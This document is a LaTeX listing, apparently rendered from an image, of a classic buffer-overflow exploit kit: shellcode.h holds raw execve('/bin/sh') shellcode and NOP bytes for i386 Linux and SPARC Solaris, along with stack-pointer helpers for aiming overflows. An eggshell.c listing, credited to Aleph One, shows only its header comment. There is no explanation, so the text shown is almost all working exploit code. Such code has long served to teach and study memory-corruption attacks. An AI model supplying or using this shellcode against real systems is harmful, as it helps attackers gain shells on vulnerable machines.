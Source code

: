 \documentclass[10pt]{article}
\begin{document}
{%
\section{Generic Buffer Overflow Program}


\begin{lstlisting}[caption=shellcode.h,frame=single,frameround=tttt,breaklines=true]
#if defined(__i386__) && defined(__linux__)
#define NOP_SIZE        1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE        4

char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82"
  "\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#endif
\end{lstlisting}

\begin{lstlisting}[caption=eggshell.c,frame=single,frameround=tttt,breaklines=true]
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */


\end{lstlisting}}
\end{document}
